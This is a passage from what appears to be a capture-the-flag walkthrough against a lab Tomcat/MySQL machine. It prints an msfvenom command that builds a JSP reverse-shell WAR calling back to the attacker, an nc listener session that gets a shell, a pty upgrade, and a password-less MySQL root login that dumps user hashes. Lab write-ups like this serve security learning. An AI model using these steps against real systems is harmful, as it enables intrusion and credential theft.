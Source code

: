 ![f697f6146754bf9dbd3bea4d438d3942.png](./_resources/11594bb3429d430bab6bd7fb44d3815b.png)

Generating payload:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.4 LPORT=4446 -f war > runme.war`

I uploaded the file and hit the link:
```
rlwrap nc -lvp 4446
listening on [any] 4444 ...
192.168.110.140: inverse host lookup failed: Unknown host
connect to [192.168.110.4] from (UNKNOWN) [192.168.110.140] 45186
id
uid=104(tomcat6) gid=112(tomcat6) groups=112(tomcat6)
python -c 'import pty;pty.spawn("/bin/bash")'
```

# 3 Post-exploitation
## 3.1 Abusing mysql without password
We have two users looking at the initial path:

* milton
* blumbergh

Recalling as proven by SQL injection that the CMS was using the MySQL root user, it tries to connect without password and it works.

There's a system user with its hash:
```
mysql> SELECT User,Password from mysql.user;
+------------------+-------------------------------------------+
| User | Password |
+------------------+-------------------------------------------+
| root | |
| milton | 6450d89bd3aff1d893b85d3ad65d2ec2 |
+------------------+-------------------------------------------+
```
